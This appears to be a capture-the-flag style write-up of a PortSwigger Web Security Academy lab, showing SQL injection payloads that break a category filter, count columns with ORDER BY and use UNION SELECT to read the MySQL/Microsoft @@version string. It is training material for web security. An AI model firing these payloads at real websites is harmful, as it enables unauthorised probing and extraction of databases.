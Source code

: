 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

[Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a `UNION` attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Make the database retrieve the string: '8.0.27'

![lab-sql-db-type-mysql-microsoft.png](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/lab-sql-db-type-mysql-microsoft.png)

# Common Attack Payload

## Single Quote

```sql
'--
```

![screenshot00](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot00.png)

## Double Quote

```sql
"--
```

![screenshot01](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot01.png)

# Identify the Number of Columns

```sql
"ORDER BY 1--
"ORDER BY 2--
"ORDER BY 3--
```

![screenshot02](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot02.png)

## Space after `--`

```sql
'ORDER BY 2-- 
'ORDER+BY+2--+
```

![screenshot03](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot03.png)

# Identify Column Data Types

```sql
'UNION+SELECT+'a',+'a'--+
'UNION+SELECT+NULL,+'a'--+
'UNION+SELECT+'a',+NULL--+
```

![screenshot04](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot04.png)

<aside>
💡 Both of them are String data type

</aside>

# Retrieve Database Version

```sql
'UNION+SELECT+NULL,+@@version--+
SELECT @@version
```

![screenshot05](./lab-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft/screenshot05.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version: `'+UNION+SELECT+@@version,+NULL#`

## Community Solutions

Rana Khalil

[SQL Injection - Lab #8 SQLi attack, querying the database type and version on MySQL & Microsoft](https://youtu.be/MFTk_LNRW0g)

Michael Sommer

[SQL injection attack, querying the database type and version on MySQL ... (Video solution, Audio)](https://youtu.be/7afmKPDaZtw)

